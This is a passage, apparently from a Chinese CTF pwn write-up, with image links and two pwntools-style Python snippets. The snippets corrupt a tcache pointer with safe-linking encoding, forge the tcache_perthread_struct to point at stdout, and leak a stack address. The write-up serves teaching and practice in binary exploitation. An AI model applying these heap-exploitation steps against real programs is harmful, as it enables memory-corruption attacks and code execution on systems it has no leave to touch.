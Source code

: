 [![](assets/1701606615-a38980f9995fbe182f3e8f1f0567849d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213752-2cd5648c-83bc-1.png)

```plain
pl='a'*0x380+p64(0)+p64(0x411)+p64((heap_base+0x10)^(heap_base>>12))
edit(9,0x400,pl)
```

[![](assets/1701606615-7aee00f295608fd0b50be38c010b291a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213803-3321e43c-83bc-1.png)  
然后利用 attack tcache\_struct 和 IO\_leak 泄露栈地址

```plain
sl('')
add(0x408,'aaaa')
pl=p64(0x1)+p64(0)*14+p64(0x0007000000000000)+p64(0)*0x3f+p64(stdout)
add(0x408,pl)

ru('\n')
stack=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x120
leak('stack ',stack)
```
